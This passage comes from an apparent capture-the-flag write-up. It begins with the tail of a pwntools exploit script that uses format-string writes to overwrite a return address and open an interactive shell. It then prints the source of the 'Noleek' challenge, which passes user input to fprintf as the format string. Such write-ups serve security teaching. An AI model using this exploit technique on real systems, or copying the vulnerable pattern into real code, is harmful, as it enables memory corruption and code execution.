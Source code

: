 ```py
        f"%{(retaddr & 0xffff) - 8}c%{ptr_ptr_offset}$hn".encode(),
    )
    io.sendlineafter(
        b"Professional):",
        f"%{ptr_offset}$hhn".encode(),
    )

    # reset for index to trigger return
    io.sendafter(
        b"Professional):",
        f"%{(stack_leak & 0xffff) - 0x180 + 3}c%{ptr_ptr_offset}$hn".encode(),
    )

    io.sendlineafter(b"Professional):", f"%{ptr_offset}$hhn".encode())

    return io


def main():
    global io

    # good luck pwning :)
    io = pwn("debug")
    io.interactive()


if __name__ == "__main__":
    main()
```

## Noleek

The challenge provides us with the source code:

```c
#include <stdio.h>
#include <stdlib.h>

#define LEEK 32

void cleanup(int a, int b, int c) {}

int main(void) {
  setbuf(stdout, NULL);
  FILE *leeks = fopen("/dev/null", "w");
  if (leeks == NULL) {
    puts("wtf");
    return 1;
  }
  printf("leek? ");
  char inp[LEEK];
  fgets(inp, LEEK, stdin);
  fprintf(leeks, inp);
  printf("more leek? ");
  fgets(inp, LEEK, stdin);
  fprintf(leeks, inp);
  printf("noleek.\n");
  cleanup(0, 0, 0);
  return 0;
}
```
